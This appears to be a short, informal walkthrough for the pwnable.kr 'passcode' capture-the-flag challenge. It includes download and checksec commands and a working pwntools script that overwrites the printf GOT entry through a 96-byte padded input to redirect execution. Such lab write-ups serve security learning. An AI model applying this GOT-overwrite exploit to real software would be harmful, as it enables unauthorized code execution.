

Download the challenge:
scp -P 2222 passcode@pwnable.kr:passcode .

verify binary security
checksec
cat /proc/sys/kernel/randomize_va_space

list terminals:
cat /etc/shells
change terminal
chsh 

ctrl+D end of transmission

We make a payload so we can see how the stack aligns afterwards:
0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789

6789 is the first number so we must send p64(memory) at that position

012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345+p32(0x804a000)


printf pointer cannot be used
ds:0x804a000


disass printf(to find address in got)


```from pwn import *
#inp=remote('pwnable.kr', 9000)
pty = process.PTY
inp=process('passcode',)
#gdb.attach(inp, '''
#break login
#''')

#print 0x8048420
inp.sendline( 96*b's'+p32(0x804a000))
print(inp.recvline())
print(inp.recvline())
inp.sendline(str.encode(str(0x080485e3))) 

inp.interactive()```


this exploit is static sooo you can do a one liner using echo -e or python -c

Sorry mom.. I got confused about scanf usage :(
